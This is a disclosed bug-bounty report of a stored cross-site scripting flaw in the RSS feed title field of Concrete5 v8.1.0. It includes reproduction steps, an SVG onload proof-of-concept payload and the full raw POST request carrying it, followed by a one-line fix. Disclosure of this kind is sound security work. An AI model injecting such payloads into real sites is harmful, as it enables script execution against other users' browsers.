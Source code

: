 # Stored XSS in RSS Feeds Title (Concrete5 v8.1.0)

## Report Details
- **Report ID**: 221380
- **URL**: https://hackerone.com/reports/221380
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-04-16T12:30:09.557Z
- **Disclosed**: 2017-05-17T18:16:14.763Z

## Reporter
- **Username**: cdl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
**Summary / Description:**
The RSS Feeds Title (`pfTitle=`) parameter does not correctly sanitize user input. This allows HTML & Javascript to be stored and executed any time someone visits `/index.php/dashboard/pages/feeds` 

## Steps to Reproduce
1. Open up Firefox
2. Login (/index.php/login)
3. Visit (index.php/dashboard/pages/feeds/add) to add a new RSS Feed
4. Put `"><svg/onload=confirm(document.domain)>` as the title 
5. Put whatever you want in the other fields and click add!

**POST REQUEST**
```
POST /index.php/dashboard/pages/feeds/add_feed HTTP/1.1
Host: ec2-34-200-232-193.compute-1.amazonaws.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://ec2-34-200-232-193.compute-1.amazonaws.com/index.php/dashboard/pages/feeds/add
Cookie: CONCRETE5=qgl7qbdhh6le0jph3f07uo6eu0; CONCRETE5_LOGIN=1; dashboardPanelStatus=closed
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 351

ccm_token=1492345382%3A9f0e473b3d4455fe197861e0fa77d671&pfTitle=%22%3E%3Csvg%2Fonload%3Dconfirm%28document.domain%29%3E&pfHandle=cdl&pfDescription=cdl&iconFID=0&cParentID=0&ptID=0&customTopicAttributeKeyHandle=&customTopicTreeNodeID=0&pfIncludeAllDescendents=0&pfDisplayAliases=0&pfDisplayFeaturedOnly=0&pfContentToDisplay=S&pfAreaHandleToDisplay=Main
```
6. `<svg/onload=confirm(document.domain)>` will be executed in your browser!

Anytime someone visits the RSS Feeds page (index.php/dashboard/pages/feeds), the payload will fire!

## Product, Version, and Configuration (If applicable)
Concrete5 v8.1.0

## Suggested Mitigation/Remediation Actions
Sanitize the `pfTitle=` parameter :)

## Attachments
- concrete5-rss-feed.png
- concrete5-rss-feedsxss.png
